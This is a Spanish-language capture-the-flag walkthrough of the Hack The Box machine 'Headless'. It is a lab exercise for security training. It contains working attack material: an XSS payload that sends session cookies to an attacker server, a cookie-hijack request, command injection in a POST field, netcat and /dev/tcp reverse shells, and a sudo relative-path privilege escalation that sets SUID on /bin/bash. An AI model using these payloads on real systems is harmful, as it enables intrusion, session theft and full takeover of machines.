


---

**Máquina:** Headless

**Plataforma:** Hack The Box

**Laboratorio:** [https://app.hackthebox.com/machines/Headless](https://app.hackthebox.com/machines/Headless)

**Target:** 10.10.11.8

---

# Guía de explotación paso a paso 'Headless'

## Paso 1 - Escaneo inicial con Nmap

Acción: escaneo inicial con nmap

```Shell
nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.11.8 -oG allPorts
````

Resultado:

```Shell
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

### Análisis del servicio en el puerto 5000

Resultado del escaneo:

```
5000/tcp open  upnp  syn-ack ttl 63
```

- **5000/tcp**: El puerto TCP 5000 está abierto.
    
- **open**: El puerto está accesible y responde.
    
- **upnp**: Nmap ha identificado el servicio como **UPnP (Universal Plug and Play)**.
    
- **syn-ack**: El puerto respondió al escaneo con un paquete **SYN-ACK**, indicando que acepta conexiones TCP.
    
- **ttl 63**: El **Time To Live** del paquete es 63, lo que puede ayudar a deducir el sistema operativo (por ejemplo, Linux suele tener un TTL de 60-64 por defecto).
    

---

### ¿Qué es "UPnP" en este contexto?

> **UPnP (Universal Plug and Play)** es un protocolo que permite que los dispositivos en una red se descubran y se comuniquen automáticamente sin necesidad de configuración manual. Se usa comúnmente en redes domésticas, como en routers, cámaras IP, smart TVs, etc.

**Advertencia**:
 
 - UPnP no debería estar expuesto a Internet.
     
 - Puede tener vulnerabilidades graves, como permitir redireccionamientos de puertos o incluso ejecución remota de código.
     

---

### ¿Siempre el puerto 5000 es "UPnP"?

No necesariamente. El puerto 5000 también puede ser utilizado por otros servicios, como:

- **Flask** (un servidor web de Python).
    
- **SonicWall SSL VPN**.
    
- **WS-Discovery**.
    
- **Servicios de cámaras IP** (por ejemplo, Dahua, Hikvision).
    

Por lo tanto, que Nmap identifique "upnp" es solo una **primera suposición** basada en un **fingerprint** de red. **Es necesario confirmar qué servicio se está ejecutando**.

---

### ¿Cómo confirmar qué servicio hay en el puerto 5000?

Puedes hacer varias pruebas:

#### 1. Conectarte con `curl` (si es HTTP)

```bash
curl http://10.10.11.8:5000
```

#### 2. Escanear más a fondo con Nmap usando scripts NSE para UPnP

```bash
nmap -p 5000 --script upnp-info 10.10.11.8
```

Este script intentará extraer información del servicio si realmente es UPnP.

#### 3. Usar Netcat para ver la respuesta bruta

```bash
nc 10.10.11.8 5000
```

A veces, una simple conexión puede mostrar si el servicio responde con texto (como HTTP) o datos binarios.

---

## Paso 2 - Decodificación de la cookie

Acción: Decodificación de la cookie utilizando `flask-unsign`.

```Shell
python3 -m venv venv 
source venv/bin/activate
pip install flask-unsign
flask-unsign --decode --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs'
```

Resultado:

```Shell
user
```

Explicación: Se ha logrado decodificar la cookie y obtener el nombre de usuario asociado a la sesión.

---

## Paso 3 - Intento de desencriptación de la cookie

Acción: Intento de desencriptar la cookie con un diccionario de contraseñas.

```Shell
flask-unsign --unsign --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs' --wordlist /usr/share/wordlists/rockyou.txt
```

Resultado:

```Shell
FlaskUnsignException: Secret must be a string-type (bytes, str) and received 'int'.
```

Explicación: Esto indica que el valor de la clave secreta no se interpreta correctamente como una cadena de texto, sino como un valor entero (int). Puede suceder si la clave contiene caracteres que el `flask-unsign` no puede procesar correctamente.

Solución:

```Shell
flask-unsign --unsign --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs' --wordlist /usr/share/wordlists/rockyou.txt --no-literal-eval
```

Explicación: Con esta opción, evitamos que el script procese de manera incorrecta los caracteres no válidos.

**Nota:** para este caso este recurso no logro dar con el resultado, por lo que probamos otro lugar donde introducir nuestro payload

---

## Paso 4 - Inyección XSS en el campo User-Agent

Acción: Uso de un comando JavaScript para interceptar las cookies. Se inserta el script malicioso en el campo `User-Agent`, donde se detectó la vulnerabilidad **XSS**. Importante comprobar previamente el campo exacto y la url donde se produce la exposición o la vulnerabilidad

```Shell
<script>var i=new Image(); i.src='http://10.10.16.9:8081/?cookie='+btoa(document.cookie);</script>
```

```Shel
<script>var i=new Image(); i.src='http://10.10.16.9:8081/?cookie=' + document.cookie</script>
```


```html
POST /support HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: <script>var i=new Image(); i.src='http://10.10.16.19:8081/?cookie='+btoa(document.cookie);</script>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://10.10.11.8:5000/support

Content-Type: application/x-www-form-urlencoded

Content-Length: 98

Origin: http://10.10.11.8:5000

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

Resultado:

```Shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.8 - - [27/Apr/2025 20:31:09] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

Explicación: El script malicioso fue ejecutado y las cookies de la sesión se enviaron a nuestro servidor HTTP en la IP `10.10.16.9:8081`.

---

## Paso 5 - Decodificación de la cookie de sesión

Acción: Decodificación de la cookie de sesión utilizando `base64 -d`.

```Shell
echo -n 'aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=' | base64 -d
```

Resultado:

```Shell
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Explicación: La cookie contiene un valor que, al decodificarse, nos indica que el usuario es **admin**.

---

## Paso 6 - Acceso al panel de administración

Acción: Modificación de la cookie para obtener acceso al panel de administración.

```html
GET /dashboard HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

Modificación de cookie:

```html
GET /dashboard HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q

=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```


Resultado:

Acceso concedido al **dashboard de administración** de la aplicación.


--- 

Acción:

```html 
POST /dashboard HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://10.10.11.8:5000/dashboard

Content-Type: application/x-www-form-urlencoded

Content-Length: 15

Origin: http://10.10.11.8:5000

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Upgrade-Insecure-Requests: 1

Priority: u=0, i


date=2023-09-15;id
```

Resultado:



Explicación: concatenando un comando a la data enviada hemos logrado introducir comandos `id`

---

# Explotación y elevación de privilegios
### Paso 1: Envío de payload a través de POST (con `netcat`)

#### Acción:

Se envía una solicitud POST al servidor con un payload malicioso para ejecutar una reverse shell utilizando `netcat`.

```http
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.11.8:5000
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
date=2023-09-15;+nc+10.10.16.9+4444+-e+/bin/bash
```

Alternativa de reverse shell:

```html
bash -c "bash -i >& /dev/tcp/10.10.16.19/443 0>&1"
```

**Nota:** usar `ctrl+u` para URLenodear y enviar una cadena que pueda interpretar

```html
%20%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%31%39%2f%34%34%33%20%30%3e%26%31%22
```
#### Respuesta:

Acceso concedido al **dashboard de administración** de la aplicación.

#### Explicación:

Se utiliza el parámetro `date` en la solicitud POST para ejecutar un comando en el servidor que abre una reverse shell a nuestra máquina atacante (IP 10.10.16.9, puerto 4444). Se aprovecha el espacio en la URL, que es codificado con `+` usando `urlencode` (se puede hacer con BurpSuite mediante `ctrl+u`).

---

### Paso 2: Recepción de la reverse shell

#### Acción:

Utilizamos `nc` (Netcat) para escuchar la conexión de la reverse shell.

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.8] 41798
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
whoami
dvir
```

#### Respuesta:

Se recibe la shell y se obtiene el control sobre el sistema como el usuario `dvir`.

#### Explicación:

Mediante `nc`, escuchamos la conexión de la reverse shell que es lanzada por el servidor víctima, obteniendo acceso a la máquina como el usuario `dvir`. La shell proporciona acceso al sistema, permitiéndonos ejecutar comandos.

---

### Paso 3: Mejora de la shell (tty)

#### Acción: [TTY Interactiva](../../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

Mejoramos la shell con los siguientes comandos para obtener una shell más estable y funcional.

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
stty rows 38 columns 183
export TERM=xterm
```

#### Respuesta:

La shell ahora es más interactiva y completa, lo que permite el uso de comandos más avanzados.

#### Explicación:

El comando `script` permite redirigir la salida de la shell, mejorando la interacción con la terminal. Después de suspender el proceso con `ctrl+z`, usamos `stty` para configurar la terminal y restablecer las características del terminal (como tamaño y visualización). Esto hace que la shell se comporte de manera más parecida a una terminal estándar, permitiendo la ejecución de más comandos.

---

### Paso 4: Escalado de privilegios con `sudo`

#### Acción:

Verificamos los privilegios de `sudo` disponibles para el usuario `dvir`.

```bash
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

#### Respuesta:

El usuario `dvir` tiene privilegios de `sudo` para ejecutar el comando `/usr/bin/syscheck` sin necesidad de contraseña.

#### Explicación:

El comando `sudo -l` muestra que el usuario `dvir` puede ejecutar el comando `syscheck` como root sin tener que proporcionar una contraseña. Esto es útil para escalar privilegios a `root`, ya que podemos modificar o explotar este comando.

---

### Paso 5: Revisión del script `syscheck`

#### Acción:

Examinamos el contenido del script `syscheck` para entender qué hace.

```bash
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

#### Respuesta:

El script revisa la información del sistema y, si no se está ejecutando el servicio `initdb.sh`, lo inicia.

#### Explicación:

El script `syscheck` realiza varias tareas administrativas, como verificar el tiempo de modificación del kernel, el espacio en disco y la carga del sistema. También verifica si el servicio `initdb.sh` está en ejecución. Si no lo está, lo inicia. Este script proporciona una oportunidad para interactuar con el sistema y ejecutar comandos con privilegios elevados.

---

### Paso 6: Creación de `initdb.sh` y ejecución con privilegios elevados

#### Acción:

Creamos el archivo `initdb.sh` en el directorio `/tmp` y lo hacemos ejecutable.

```bash
dvir@headless:/tmp$ touch initdb.sh
dvir@headless:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > initdb.sh 
dvir@headless:/tmp$ chmod +x initdb.sh
```

**Alternativa:** initdb.sh

```Shell
#!/bin/bash

chmod u+s /bin/bash
```

Explicación: como este archivo se ejecuta dentro de un proceso de superusuario, podemos indicarle que modifique los permisos para que tenga permisos SUID en la /bin/bash y poder lanzarnos una shell como root

Con `ls -l /bin/bash` podemos ver antes y después como los permisos cambian

**Nota:** importante dar permisos de ejecución al archivo *initdb.sh* con `chmod +x initdb.sh`

Elevación de privilegios con SUID:

```Shell
bash -p
```
#### Respuesta:

El archivo `initdb.sh` se crea con un simple payload para abrir una shell de bash y luego se le otorgan permisos de ejecución.

#### Explicación:

Creamos el archivo `initdb.sh` con un script básico que ejecuta una shell de bash. Esto permitirá que, al ejecutar `syscheck`, se inicie una shell interactiva con privilegios de root.

---

### Paso 7: Ejecución de `syscheck` y escalado a root

#### Acción:

Ejecutamos el script `syscheck` con privilegios de root y obtenemos acceso como `root`.

```bash
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
whoami
root
```

#### Respuesta:

El script `syscheck` ejecuta el servicio `initdb.sh`, lo que nos otorga acceso como root.

#### Explicación:

Cuando ejecutamos `syscheck` con privilegios de root, el script detecta que el servicio `initdb.sh` no está en ejecución y lo inicia. Esto abre una shell con privilegios de root, lo que nos permite tener control completo sobre el sistema.

---
